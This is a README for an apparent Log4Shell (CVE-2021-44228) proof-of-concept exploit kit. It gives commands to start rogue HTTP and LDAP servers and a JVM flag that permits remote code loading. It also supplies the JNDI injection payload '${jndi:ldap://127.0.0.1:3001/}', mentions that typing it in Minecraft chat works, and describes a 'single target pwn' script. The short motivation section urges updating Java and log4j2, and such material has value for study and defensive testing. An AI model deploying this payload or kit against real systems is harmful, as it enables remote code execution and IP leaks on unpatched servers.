 # log4j2-prosecutor

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had (JNDILookup)[CVE-2021-44228](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>

## Running
0. Install requirements
```
cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
cd http-server && node index.js &
cd ldap-server && node index.js
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
./java-single-compile <Main.java>
# Linux 
javac <Main.java>
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send payload to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)
```
${jndi:ldap://127.0.0.1:3001/}
```
5. cleanup
```
NODEP=`pgrep node`
for id in $NODEP; do
    kill $id
done
```

## Scripts
```
# Single target pwn
# Edit exploit-configs.txt with url and params
cd scripts/single-pwn && python3 __main__.py
```

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java
- https://www.blumira.com/analysis-log4shell-local-trigger/ (todo)

## License [GPL3]
See License in LICENSE
